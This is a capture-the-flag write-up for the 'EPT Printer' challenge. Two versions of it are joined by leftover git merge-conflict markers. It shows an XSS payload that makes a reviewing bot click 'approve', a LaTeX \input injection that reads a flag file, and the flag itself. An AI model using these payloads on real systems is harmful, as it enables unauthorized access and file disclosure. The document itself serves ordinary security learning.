 <<<<<<< HEAD
# Writeup
author: th@m456 @ FesseMisk

## EPT Printer
![alt text](image.png)

### Solution
This is an onsite challenge where we need to print out the flag on an actual printer. In order to do this, we first need to get approval by a bot reviewing "approval applications".

First, we open the link provided by the EPT Box. 
![alt text](image-1.png)
From here, we must log in with our Discord user. Our Discord user is connected to a personal ID card, which is required for solving the challenge at a later stage.

After logging in, we can find an "approval application" form from the menu in the top right.
![alt text](image-2.png)

By finding hints in the attached source code, I understand that we must trick the bot to automatically click "accept" on our application.

```bash
/webapp/app/templates$ cat application.html

(...)
<!-- Make it easy for the admin to click() the button by placing it at the top -->
(...)
```

The bot checks the incoming applications every 30 seconds, revealed in a `bot.py` file.

```python
APPLICATIONS_CHECK_FREQUENCY_SECONDS = int(
    os.getenv("APPLICATIONS_CHECK_FREQUENCY_SECONDS", 30)
```

I am able to find out that the application form is susceptible to XSS, by attempting this line:

```html
<script>alert(XSS vulnerable!)</script>>
```

We can use XSS to make the bot accept our application upon review with this code:

```html
<img src=x onerror="document.getElementById('submit').click();">
```

![alt text](image-3.png)

After waiting for >30 seconds, we are now approved! Now we are able to print stuff by using the `Printing Form`.

![alt text](image-4.png)

In the source code, we find `template.tex`, indicating that we must write our code in Latex format in order to get the flag. In the template file, we can also see what commands are set, and where our input will be read.

```tex
$ cat template.tex
\documentclass{article}
\usepackage{graphicx}
\usepackage{eso-pic}

\linespread{1.5}
\setlength{\parindent}{0pt}
\pagenumbering{gobble}
\title{EPT}
\author{klarz}

\AddToShipoutPictureBG*{
  \AtPageLowerLeft{
    \includegraphics[width=\paperwidth,height=\paperheight,keepaspectratio]{ept.png}
  }
}

\begin{document}

\null\hfill\begin{tabular}[t]{l@{}}
  \textbf{EPT CTF 2024} \\
  \textit{\today}
\end{tabular}

{\noindent\Large\bfseries\sffamily\color{red}{<PRINT_JOB_TITLE>}}
\vspace{3mm}

<PRINT_JOB_CONTENT>

\end{document}
```

The attached source code also has a placeholder for flag.txt, so I know the filepath and name of the flag file is `/webapp/flag.txt`. The printing folder is at `/webapp/app/printing`, so we must do some traversing in our code.

The printing job is only executed if there are no errors in the Latex code. Many of my attempts gave an error indicating a math expression! So I had to ask GPT;

```
In LaTeX, the underscore character _ is a special character used for subscripts in mathematical expressions. Because of this, using an underscore directly in text can cause errors or unexpected behavior. To include an underscore in text, you need to escape it or change its category code.
```

Ahaaaaa! And the flag often contains an underscore!

After several attempts with errors or only printing the filepath, we successfully get the contents of the flag with this code, where we change the category code of underscore (and %, but that probably didn't matter):

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{../../flag.txt}
\endgroup
```

![alt text](image-5.png)

I forgot to take a picture of the printout... but at least got the flag!

```text
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```
=======
## EPT PRINTER

### Task

EPT Print was a printing service with a Flask backend. Completed documents could be printed on-site.

To use the printer, users needed to be verified first. In addition to the Flask server, a bot ran a headless browser to open and review these applications without approving them.

The printing lets us insert text into a LaTeX template that gets sent to the printer.

### Solution

First, we need to get approved to use the printer. We can achieve this by injecting XSS. The code actually hints us about it through comments in the source code in `/webapp/app/__init__.py`:

![Comment in code](image.png)

We use XSS to automatically approve our application:

```html
<img src="x" onerror="document.getElementById('submit').click();">
```

We are now approved, and we can now use the printer. To get the flag we can exploit the fact that we can write LaTeX in order to read a potential flag file:

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{/flag.txt}
\endgroup
```

`\input{/flag.txt}` loads he content of `/flag.txt` as LaTeX. But since the flag file most probably just contains the flag, we dont want it to compile as LaTeX. Therefore we use `\catcode`\%=12` and `\catcode`\_=12`. These lines are added so that any `%` and `_` characters are not interpreted as LaTeX until printed. This proved necessary because the flag contained `_`.

<details>
<summary>Flag</summary>

`EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}`
</details>
>>>>>>> 35aa7bd3c314268230e8d35c9ff3119545fb950d
